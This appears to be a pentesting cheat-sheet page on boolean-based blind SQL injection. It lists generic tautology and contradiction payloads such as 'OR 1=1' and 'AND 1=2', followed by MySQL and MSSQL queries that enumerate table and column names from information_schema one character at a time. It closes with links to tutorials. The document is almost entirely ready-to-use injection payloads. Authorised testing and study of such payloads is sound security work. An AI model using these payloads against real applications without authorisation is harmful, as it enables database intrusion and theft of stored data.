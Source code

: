 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - blind-sql-injection
---
```

# Boolean-based Payloads

## Exploit

### Generic

```
OR 1=1
OR 1=1 LIMIT 1
OR '1'='1'
OR '1'='1' LIMIT 1
OR 1=2
OR 1=2 LIMIT 1
AND 1=1
AND 1=1 LIMIT 1
AND '1'='1'
AND '1'='1' LIMIT 1
AND 1=2
AND 1=2 LIMIT 1
```

## Enumeration

### Tables

#### MySQL

```
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```

#### MSSQL

```
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'
```

### Columns

#### MySQL

```
AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

#### MSSQL

```
AND SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns > 'A'
```

---
## References

### GBHackers

- [GBHackers: Web Application Pentesting - Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [GBHackers: How to Perform Manual SQL Injection While Pentesting With Single Quote Error-Based Parenthesis Method](https://gbhackers.com/manual-sql-injection-2/)

- [GBHackers: Web Application Pentesting with Manual SQL Injection - Integer Based](https://gbhackers.com/perform-manual-sql-injection/)

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)